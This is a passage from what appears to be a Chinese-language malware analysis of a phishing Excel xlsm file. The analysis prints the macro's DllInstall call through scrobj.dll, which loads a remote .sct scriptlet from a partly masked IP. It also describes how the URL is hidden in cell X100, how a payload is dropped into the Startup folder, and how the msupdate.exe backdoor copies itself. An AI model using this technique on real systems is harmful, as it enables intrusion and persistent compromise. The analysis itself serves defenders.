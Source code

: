 [![](https://p5.ssl.qhimg.com/t01a975166142e6524a.png)](https://p5.ssl.qhimg.com/t01a975166142e6524a.png)

这是一个含有宏的xlsm电子表格文件，利用社会工程学的办法,诱使目标”启用内容”来执行宏恶意代码

提取的宏代码如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t017819e357f343d78a.png)

**2.1.2. 恶意宏代码**

当目标启用内容后就会执行Workbook_Open的代码

DllInstall False, ByVal StrPtr(Sheet1.Range(“X100”).Value)

通过加载scrobj.dll调用

远程加载[http://45.xxx.xxx.67/window.sct](http://45.xxx.xxx.67/window.sct),这种是利用Microsoft系统文件的LOLbin以绕过杀软的监测，达到远程执行代码目的。

其中Sheet1.Range(“X100”).Value 是小技巧，将payload隐藏在Sheet1中，通过VBA获取下载地址，起到一定混淆保护效果

[![](https://p1.ssl.qhimg.com/t01be8d1ff8cfb9867f.png)](https://p1.ssl.qhimg.com/t01be8d1ff8cfb9867f.png)

**2.1.3. 恶意sct文件(windows.sct)**

通过windows.sct再下载到到启动目录，并重名为Temp.exe,并运行该程序

如下图

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a60d65ad8a567b08.png)

系统启动文件夹

[![](https://p2.ssl.qhimg.com/t014650526ef0dd620a.png)](https://p2.ssl.qhimg.com/t014650526ef0dd620a.png)

**2.1.4.后门分析(msupdate.exe)**

文件信息:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014824f4675a3d8464.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012075c267d6a8f1ab.png)

主要功能:

1.自身拷贝到当前用户的AppData\Roaming和C:\Microsoft目录下并重命名msupdate.exe,并且创建并写入uuid.txt，来标识不同用户

[![](https://p2.ssl.qhimg.com/dm/1024_153_/t0120f47397614708db.png)](https://p2.ssl.qhimg.com/dm/1024_153_/t0120f47397614708db.png)

[![](https://p1.ssl.qhimg.com/t01a7436842abb4b2fd.png)](https://p1.ssl.qhimg.com/t01a7436842abb4b2fd.png)

